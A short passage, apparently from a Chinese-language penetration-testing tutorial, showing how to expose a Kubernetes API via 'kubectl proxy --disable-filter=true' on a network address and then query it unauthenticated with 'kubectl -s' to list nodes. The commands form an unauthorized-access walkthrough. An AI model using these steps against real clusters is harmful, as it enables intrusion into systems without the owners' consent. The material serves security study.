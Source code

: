```bash
kubectl proxy --port=8080 --address=192.168.17.144 --api-prefix=/ --disable-filter=true
```

[![](assets/1701826061-6a4e55565746fb10f43d41b34e78b676.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171652-3c460710-7317-1.png)  
Step 2：之后再浏览器中访问  
[![](assets/1701826061-9d9ed9ddf48d8db7ee8c08dd7fcf0471.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171707-44f8aad4-7317-1.png)  
Step 3：之后和 K8s API Server 未授权利用一致，例如：获取节点信息

```bash
#格式说明
kubectl -s ip:port get nodes

#执行实例
kubectl -s 192.168.17.144:8080 get nodes
```

[![](assets/1701826061-e2fc8ae85f71ef306ea29e86ed941125.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171727-51097b46-7317-1.png)

### 控制面版
